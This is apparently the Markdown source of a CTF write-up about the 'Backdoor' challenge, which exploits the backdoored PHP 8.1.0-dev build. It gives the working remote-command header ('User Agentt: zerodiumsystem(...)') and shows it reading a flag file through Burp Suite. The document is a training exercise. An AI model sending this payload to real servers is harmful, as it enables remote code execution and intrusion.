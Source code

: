```yaml
---
title: "HackArmour CTF Writeups: Backdoor"
categories: "hackarmour-ctf"
tags: "exploit"
date: 2021-06-28 11:00:00
description: This post is a writeup of the `Backdoor` challenge of the HackArmour June '21 CTF.
---
```


[![The Challenge](https://cdn.jsdelivr.net/gh/mrnightdev/blog-images@master/2021/06/backdoor/00-challenge.png)](https://ctf.hackarmour.tech/challenges#Backdoor-10)

{{ page.description}}

Link : [104.248.153.17:2500][challenge-link]

## Visiting the website

![the website](https://cdn.jsdelivr.net/gh/mrnightdev/blog-images@master/2021/06/backdoor/01-website.png)

We can see that the website uses php version `8.1.0-dev`.

## A little backstory

This version was released with a backdoor in March 2021 when two malicious commits were pushed to to the php source repo. You can read the announcement [here](https://news-web.php.net/php.internals/113838).

## About the Vulnerability

If we add a header to the request `User Agentt: zerodiumsystem('ls')`,
the server executes the command `ls`.

## Exploit

Start Burp Suite and capture the request.

![Captured Request](https://cdn.jsdelivr.net/gh/mrnightdev/blog-images@master/2021/06/backdoor/02-burp_req.png)

~~Yes I am on Windows :/~~

We are told the flag is in `/opt/flag.txt`. So let us add the header

```cmd
User Agentt: zerodiumsystem('cat /opt/flag.txt');
```

and forward the request.

![Modified Request](https://cdn.jsdelivr.net/gh/mrnightdev/blog-images@master/2021/06/backdoor/03-modified-req.png)

And voilà! We see the flag in the response.

![Exploit Successful](https://cdn.jsdelivr.net/gh/mrnightdev/blog-images@master/2021/06/backdoor/04-success.png)

PHP should really check their PRs, don't they? ;)

## External Links

[Exploit DB exploit](https://www.exploit-db.com/exploits/49933)

[PHP's announcement on this exploit](https://news-web.php.net/php.internals/113838)

[challenge-link]: http://104.248.153.17:2500/